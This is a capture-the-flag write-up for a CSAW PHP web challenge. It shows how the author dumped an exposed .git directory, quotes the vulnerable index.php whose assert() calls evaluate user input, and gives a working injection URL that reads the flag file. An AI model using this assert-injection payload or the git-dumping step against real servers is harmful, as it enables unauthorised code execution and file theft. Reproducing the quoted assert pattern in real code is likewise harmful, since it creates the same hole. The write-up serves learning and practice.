





The challenge contains a link to a website:

Going to the about tab reveals that the site uses PHP and git.

The server has it's git directory public available:

I used https://github.com/evilpacket/DVCS-Pillage to download the git directory contents:

`./gitpillage.sh http web.chal.csaw.io:8000/`

This gives access to the source of index.php:
~~~~
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>

        [irrelevant html stuff]...

		

			<?php
				require_once $file;
			?>
			
		

		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
~~~~

After trying various ways to sneak '..' into the url, I remembered that assertions are generally not advised to be used in production code (at least in Python and PHP), so I looked up the php docs on assertions. It turns out that the string passed to the assert is evaluated as php code, meaning that we can inject code using the $page parameter.

After a lot of testing I came up with the solution:
~~~~
http://web.chal.csaw.io:8000?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('
~~~~

When evaluated by index.php, the first assert becomes:
~~~~
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");
~~~~
This gets past the first assert, opens the flag.php file, and exits, printing its contents before the assertion fails.

